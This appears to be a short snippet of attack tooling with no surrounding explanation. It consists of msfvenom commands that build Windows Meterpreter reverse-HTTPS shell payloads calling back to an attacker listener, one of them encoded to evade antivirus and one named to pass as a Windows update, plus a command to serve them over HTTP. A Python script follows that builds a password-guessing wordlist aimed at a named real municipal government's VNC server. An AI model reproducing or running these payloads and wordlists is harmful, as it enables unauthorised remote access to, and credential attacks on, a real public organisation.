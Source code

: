 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

import itertools

# Criar uma lista de palavras-chave baseadas na Prefeitura de Atibaia e no servidor
keywords = [
    "atibaia", "sumas", "servidor", "prefeitura", "atibaia.gov", "SUMA57667", "admin", "governo", "municipio"
]

# Anos relevantes desde 2019
years = [str(y) for y in range(2019, 2025)]

# Caracteres especiais comuns em senhas
special_chars = ["@", "#", "!", "$", "123", "2024"]

# Gerar combinações de palavras-chave + anos + caracteres especiais
wordlist = set()

for keyword in keywords:
    for year in years:
        wordlist.add(keyword + year)
        for char in special_chars:
            wordlist.add(keyword + year + char)
            wordlist.add(keyword.capitalize() + year + char)
            wordlist.add(keyword.upper() + year + char)

# Adicionar algumas variações extras comuns
common_variations = [
    "Atibaia@123", "Sumas#2024", "Pref@123", "Governo2024!", "Admin2023@", "Servidor#2020"
]
wordlist.update(common_variations)

# Salvar a wordlist em um arquivo
wordlist_path = "/mnt/data/wordlist_atibaia_vnc.txt"
with open(wordlist_path, "w") as f:
    for password in wordlist:
        f.write(password + "\n")

# Exibir o caminho do arquivo gerado
wordlist_path

